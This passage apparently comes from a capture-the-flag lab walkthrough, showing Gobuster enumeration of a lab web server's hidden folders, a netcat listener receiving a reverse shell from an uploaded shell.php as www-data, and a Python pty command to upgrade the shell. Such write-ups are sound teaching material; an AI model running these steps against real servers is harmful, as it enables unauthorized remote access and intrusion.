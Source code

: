 After that, we need to find the location of our file with the reverse  shell. To do this, we're going to use Gobuster to enumerate and locate  hidden folders on the web server.

```          bash
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.245.13
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/10/07 20:36:19 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.129.245.13/css/]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.245.13/fonts/]
/images               (Status: 301) [Size: 315] [--> http://10.129.245.13/images/]
/index.php            (Status: 200) [Size: 10932]                                 
/js                   (Status: 301) [Size: 311] [--> http://10.129.245.13/js/]    
/server-status        (Status: 403) [Size: 278]                                   
/themes               (Status: 301) [Size: 315] [--> http://10.129.245.13/themes/]
/uploads              (Status: 301) [Size: 316] [--> http://10.129.245.13/uploads/]
                                                                                   
===============================================================
2023/10/07 20:36:38 Finished
===============================================================
┌─[parrot@parrot]─[~]
```

We found the 'uploads' folder. Now, we are going to set up a listener and visit http://10.129.245.13/uploads/shell.php to establish a shell on our listener's port. 

```                                                                        bash
┌─[parrot@parrot]─[/usr/share/webshells/php]
└──╼ $nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.15.11] from (UNKNOWN) [10.129.245.13] 46544
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 21:11:56 up  1:55,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

to make our shell more useful, we can spawn a Python shell using the command ```python3 -c 'import pty;pty.spawn("/bin/bash")```.
